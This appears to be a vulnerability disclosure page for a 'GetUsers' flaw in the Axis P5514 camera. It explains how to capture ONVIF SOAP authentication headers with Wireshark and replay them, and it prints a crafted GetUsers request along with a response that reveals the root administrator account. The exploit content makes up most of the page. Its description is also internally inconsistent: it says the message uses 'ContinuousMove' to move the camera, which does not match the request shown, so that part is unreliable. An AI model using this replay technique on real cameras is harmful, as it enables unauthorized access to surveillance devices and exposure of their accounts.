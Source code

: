 # getusers Vulnerability of Axis 5514 Camera 


This page show the details of the vulnerability found in AXIS 5514 Camera. AXIX-P5514 is not on sale now, but maybe some of them are still in use. 


Description

The attacker can remotely get user information of Axis camera 5514 without permission by a customized message. In order to customize and inject attacking messages, a PoC with C++ Language was developed to modify captured request messages with function “Getusers” in <Soap:Body> under the ONVIF specification. The PoC source code "axis_5514_getusers.cpp" is also posted here. The raw message was captured on line by Wireshark. And I got the SOAP packets from client to the  AXIS-P5514 camera, and filtered out the authentication information in SOAP head, such as: <wsse:UsernameToken><wsse:Username> username </wsse:Username><wsse:Password Type="http://docs.oasis-open.org/wss/2004/01/oasis-200401-wss-username-token-profile-1.0#PasswordDigest">keys</wsse:Password><wsse:Nonce>8eVIq85lxOn5IcBPVdiyvQ==</wsse:Nonce><wsu:Created>20XX-03-12T09:12:15Z</wsu:Created></wsse:UsernameToken>. After capturing such packets, use the authentication information above to customize a message with function “ContinuousMove” in <Soap:Body> and then send the modified message to the AXIS-P5514 camera. Then the Axis 5514 camera can continually move on Pan&Tilt. 

The customized message is likely as follow.
<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope" xmlns:tds="http://www.onvif.org/ver10/device/wsdl" xmlns:tt="http://www.onvif.org/ver10/schema">  <s:Header xmlns:s="http://www.w3.org/2003/05/soap-envelope">    
<wsse:Security xmlns:wsse="http://docs.oasis-open.org/wss/2004/01/oasis-200401-wss-wssecurity-secext-1.0.xsd" xmlns:wsu="http://docs.oasis-open.org/wss/2004/01/ oasis-200401-wss-wssecurity-utility-1.0.xsd">      
<wsse:UsernameToken>        
<wsse:Username>username</wsse:Username>        
<wsse:Password Type="http://docs.oasis-open.org/wss/2004/01/oasis-200401-wss-username-token-profile-1.0#PasswordDigest">keys</wsse:Password><wsse:Nonce>8eVIq85lxOn5IcBPVdiyvQ==</wsse:Nonce>        
<wsu:Created>20XX-03-12T09:12:15Z</wsu:Created>      
</wsse:UsernameToken>   
 </wsse:Security>  
</s:Header>  
  <soap:Body>
    <tds:GetUsers />
  </soap:Body>
</soap:Envelope>

the response message is likely as follow.

HTTP/1.1 200 OK
Server: gSOAP/2.7
Content-Type: application/soap+xml; charset=utf-8
Content-Length: 3020
Connection: close
<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://www.w3.org/2003/05/soap-envelope" xmlns:SOAP-ENC="http://www.w3.org/2003/05/soap-encoding" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:c14n="http://www.w3.org/2001/10/xml-exc-c14n#" xmlns:wsu="http://docs.oasis-open.org/wss/2004/01/oasis-200401-wss-wssecurity-utility-1.0.xsd" xmlns:ds="http://www.w3.org/2000/09/xmldsig#" xmlns:wsse="http://docs.oasis-open.org/wss/2004/01/oasis-200401-wss-wssecurity-secext-1.0.xsd" xmlns:wsa5="http://www.w3.org/2005/08/addressing" xmlns:xmime="http://tempuri.org/xmime.xsd" xmlns:xop="http://www.w3.org/2004/08/xop/include" xmlns:wsrfbf="http://docs.oasis-open.org/wsrf/bf-2" xmlns:wstop="http://docs.oasis-open.org/wsn/t-1" xmlns:tt="http://www.onvif.org/ver10/schema" xmlns:acert="http://www.axis.com/vapix/ws/cert" xmlns:wsrfr="http://docs.oasis-open.org/wsrf/r-2" xmlns:aa="http://www.axis.com/vapix/ws/action1" xmlns:acertificates="http://www.axis.com/vapix/ws/certificates" xmlns:aentry="http://www.axis.com/vapix/ws/entry" xmlns:aev="http://www.axis.com/vapix/ws/event1" xmlns:aeva="http://www.axis.com/vapix/ws/embeddedvideoanalytics1" xmlns:ali1="http://www.axis.com/vapix/ws/light/CommonBinding" xmlns:ali2="http://www.axis.com/vapix/ws/light/IntensityBinding" xmlns:ali3="http://www.axis.com/vapix/ws/light/AngleOfIlluminationBinding" xmlns:ali4="http://www.axis.com/vapix/ws/light/DayNightSynchronizeBinding" xmlns:ali="http://www.axis.com/vapix/ws/light" xmlns:apc="http://www.axis.com/vapix/ws/panopsiscalibration1" xmlns:arth="http://www.axis.com/vapix/ws/recordedtour1" xmlns:ascm="http://www.axis.com/vapix/ws/siblingcameramonitor1" xmlns:asd="http://www.axis.com/vapix/ws/shockdetection" xmlns:aweb="http://www.axis.com/vapix/ws/webserver" xmlns:tan1="http://www.onvif.org/ver20/analytics/wsdl/RuleEngineBinding" xmlns:tan2="http://www.onvif.org/ver20/analytics/wsdl/AnalyticsEngineBinding" xmlns:tan="http://www.onvif.org/ver20/analytics/wsdl" xmlns:tds="http://www.onvif.org/ver10/device/wsdl" xmlns:tev1="http://www.onvif.org/ver10/events/wsdl/NotificationProducerBinding" xmlns:tev2="http://www.onvif.org/ver10/events/wsdl/EventBinding" xmlns:tev3="http://www.onvif.org/ver10/events/wsdl/SubscriptionManagerBinding" xmlns:wsnt="http://docs.oasis-open.org/wsn/b-2" xmlns:tev4="http://www.onvif.org/ver10/events/wsdl/PullPointSubscriptionBinding" xmlns:tev="http://www.onvif.org/ver10/events/wsdl" xmlns:timg="http://www.onvif.org/ver20/imaging/wsdl" xmlns:tptz="http://www.onvif.org/ver20/ptz/wsdl" xmlns:trt="http://www.onvif.org/ver10/media/wsdl" xmlns:ter="http://www.onvif.org/ver10/error" xmlns:tns1="http://www.onvif.org/ver10/topics" xmlns:tnsaxis="http://www.axis.com/2009/event/topics"><SOAP-ENV:Header></SOAP-ENV:Header><SOAP-ENV:Body><tds:GetUsersResponse><tds:User><tt:Username>root</tt:Username><tt:UserLevel>Administrator</tt:UserLevel></tds:User></tds:GetUsersResponse></SOAP-ENV:Body></SOAP-ENV:Envelope>





References

https://www.axis.com/products/axis-p5514-e
